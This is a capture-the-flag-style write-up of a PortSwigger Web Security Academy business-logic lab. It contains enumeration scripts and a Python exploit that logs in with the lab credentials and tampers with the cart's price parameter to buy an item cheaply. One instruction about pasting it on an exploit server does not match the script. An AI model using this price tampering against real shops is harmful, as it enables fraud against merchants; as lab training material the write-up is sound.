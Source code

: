 ```yaml
--- 
title: "Excessive Trust in Client Side Controls"
author: ""
date: 2024-06-01T16:21:27+01:00
description: ""
draft: false
disableComments: false
categories: []
series: [] #Taxonomy to list "See Also" Section in Opengraph Templates
tags: []
slug: ""
summary: ""
---
```

#### Entities
Asset: https://0a1f00410450ba6680aa8a200085007a.web-security-academy.net

#### Enumeration
Access the lab, add the domain to Burp's Target scope and check `Include subdomains`. View `/` route source page and inspect the page, then request all embedded links via Burp proxy using the scripts below.
```shell
base_url="https://0a1f00410450ba6680aa8a200085007a.web-security-academy.net"
paths=$(curl -s "$base_url" | grep -oE '(src|href)="[^"]*"' | cut -d'"' -f2)
for path in $paths; do
  echo "$(curl -sk -x 127.0.0.1:8080 -o /dev/null "${base_url}${path}")"
done
```

```python
from bs4 import BeautifulSoup
from urllib.parse import urljoin
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Specify Variables
base_url = "https://0a1f00410450ba6680aa8a200085007a.web-security-academy.net"
proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

# Parse Base URL
content = BeautifulSoup(requests.get(base_url).text, 'html.parser')

# Find and Request all href resource
for link in content.find_all('a', href=True):
  full_url = urljoin(base_url,link['href'])
  response = requests.get(full_url, proxies=proxies, verify=False)
  print(f"{response.status_code} {response.url}")

# Find and Request all src resource
for img in content.find_all('img', src=True):
  full_url = urljoin(base_url,img['src'])
  response = requests.get(full_url, proxies=proxies, verify=False)
  print(f"{response.status_code} {response.url}")
```

![Enumeration](/images/bizlogic1/01-enumerate-excessive-trust-in-client-side-controls.png "Enumeration")  

#### Exploration
Inspect Burp's Target Site map to find `/cart` resource path which the bash script missed but the python script revealed. Stacking BurpSuite and the Browser with FoxyProxy extension for Burp turned on, perform a user flow for purchasing an item after logging in with the provided user credential  `wiener:peter`.     

![Exploration](/images/bizlogic1/02-explore-excessive-trust-in-client-side-controls.png "Exploration") 

#### Exploitation
The `/login` when requested with valid credentials makes a POST request with `csrf`, `username` and `password` parameters. Observe a POST request  to `/cart`  with `productId`,`redir`, `quantity`, and `price` parameters. When the cart is viewed a GET request is made to `/cart` which returns an ensuing page with a coupon feature that has a `csrf` input tag and a form tag that makes a POST request to `/cart/checkout` to place an order for the item. Send these requests to Burp Repeater, Change the price and sequentially resend these requests. This exploit can be automated with the script below
```python
from bs4 import BeautifulSoup
from urllib.parse import urljoin
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Define Variables
base_url = 'https://0a1f00410450ba6680aa8a200085007a.web-security-academy.net/'
proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

# Get CSRF Token
def get_csrf_token(session, url):
  response = session.get(url, proxies=proxies, verify=False)
  csrf_token = BeautifulSoup(response.text, 'html.parser').find('input', {'name': 'csrf'}).get('value')
  return csrf_token

# Purchase Item
def purchase_item(session, url):
  # Login
  login_url = urljoin(base_url, 'login')
  login_csrf_token = get_csrf_token(session, login_url)
  login_payload = {'username': 'wiener', 'password': 'peter', 'csrf': login_csrf_token}
  login_response = session.post(login_url, data=login_payload, proxies=proxies, verify=False)
  if login_response.status_code == 200:
    # Add item
    cart_url = urljoin(base_url, 'cart')
    cart_payload = {'productId': '1', 'redir': 'PRODUCT', 'quantity': '1', 'price': '1337'}
    session.post(cart_url, data=cart_payload, proxies=proxies, verify=False)

    # Checkout
    checkout_url = urljoin(base_url, 'cart/checkout')
    checkout_csrf_token = get_csrf_token(session, cart_url)
    checkout_payload = {'csrf': checkout_csrf_token}
    checkout_response = session.post(checkout_url, data=checkout_payload, proxies=proxies, verify=False)
    if checkout_response.status_code == 200:
      print("Purchase successful!")
    else:
      print("Failed to checkout.")
  else:
    print("Failed to log in.")

def main():
  session = requests.Session()
  purchase_item(session, base_url)

if __name__ == "__main__":
  main()
```
Paste the above on the exploit server and deliver exploit to victim.  

![Exploitation](/images/bizlogic1/03-exploit-excessive-trust-in-client-side-controls.png "Exploitation") 

![Solution](/images/bizlogic1/04-lab-solution.png "Solution")   

#### Resources
- https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-excessive-trust-in-client-side-controls
- https://github.com/knoxknot/portswigger/tree/main/businsess-logic/01-excessive-trust-in-client-side-controls